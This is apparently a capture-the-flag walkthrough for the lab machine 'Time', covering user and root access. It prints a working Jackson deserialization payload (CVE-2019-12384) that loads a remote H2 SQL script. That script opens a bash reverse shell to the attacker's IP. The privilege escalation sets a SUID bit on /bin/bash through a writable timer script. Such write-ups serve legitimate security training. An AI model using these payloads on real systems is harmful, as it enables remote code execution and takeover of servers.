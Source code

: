 ## Time

Difficulty: Medium

### User Flag

```
rustscan -a 10.10.10.214 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/11a04175-f769-48f2-ae43-33c7e7cf8533)

<br>

The website has a function to beautify JSON.

![websiteBeautify](https://github.com/b1d0ws/OSCP/assets/58514930/fd124fb9-ab69-4e2e-8212-7fa2347deffa)

<br>

And one to validate it. If you input some normal text you get this error:

```
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```

![websiteValidate](https://github.com/b1d0ws/OSCP/assets/58514930/e10e7be0-ff64-458a-ad25-d3a1a28ceb94)

<br>

If you search for this error you find [this RCE exploit](https://github.com/jas502n/CVE-2019-12384) in github.

![searchingExploit](https://github.com/b1d0ws/OSCP/assets/58514930/88fc682d-1937-48d4-98b7-9183145f1c24)

<br>

Following the exploit, first you create the injection.sql file.

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.11/2222 0>&1')
```

Up a python server on the same directory and input this payload to get a reverse shell:

```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.11:8000/inject.sql'"}]
```

![inputPayload](https://github.com/b1d0ws/OSCP/assets/58514930/2a2a68ef-7241-4bf9-9d57-254f377013a8)

![gettingReverse](https://github.com/b1d0ws/OSCP/assets/58514930/091fd020-3382-4548-867a-2709faf1f494)

### Root Flag

LinPeas return that /usr/bin/timer_backup.sh is owned by our user.

![linPeas](https://github.com/b1d0ws/OSCP/assets/58514930/889a1e66-035c-4a75-8eb1-96ccefcdaef0)

<br>

Looking at linux services, we discover this script is related to some timer.

![services](https://github.com/b1d0ws/OSCP/assets/58514930/e5a39af0-1258-4445-b9d4-2324f7f21cf1)

<br>

Just edit the script to put a SUID bit on /bin/bash and get root user.

![gettingRoot](https://github.com/b1d0ws/OSCP/assets/58514930/20dab68b-3342-4b40-9fa5-13da4d71fd80)

